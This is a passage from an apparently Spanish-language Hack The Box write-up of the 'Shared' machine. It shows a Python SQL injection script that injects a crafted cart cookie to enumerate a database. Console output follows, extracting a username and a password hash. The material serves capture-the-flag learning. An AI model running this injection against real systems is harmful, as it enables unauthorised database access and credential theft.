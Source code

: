 ```python

		# create cookie
		malicious_cookie = { 
			"custom_cart" : urlcode_cookie
		}

		# inyect cookie
		r = s.get(f'{target_host}', cookies=malicious_cookie, verify=False)
		
		# show information
		soup = BeautifulSoup(r.text, 'lxml')
		print()
		print(soup.td.string)

# program flow

def main(args):
	request(args)

if __name__ == '__main__':

	# Help panel 
	parser = argparse.ArgumentParser(description='SQLi Shared HTB')
	
	parser.add_argument('-d', '--database', type=str, required=False, help='Select database')
	parser.add_argument('-t', '--table', type=str, required=False, help='Select table')
	parser.add_argument('-c', '--column', type=str, required=False, help='Select column')
	parser.add_argument('-q', '--query', type=str, required=False, help='One word query (g.e version())')

	args = parser.parse_args()

	# pass args object
	main(args)
```

> Puedes encontrar el script en mi repositorio [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/Auto-tools_Shared/sql_inyection.py)
{: .prompt-info}

```console
❯ python3 sql_inyection.py

|information_schema|,|checkout|
❯ python3 sql_inyection.py -d checkout

|user|,|product|
❯ python3 sql_inyection.py -d checkout -t user

|id|,|username|,|password|
❯ python3 sql_inyection.py -d checkout -t user -c username

|james_mason|
❯ python3 sql_inyection.py -d checkout -t user -c password

|fc895d4eddc2fc12f995e18c865cf273|
```
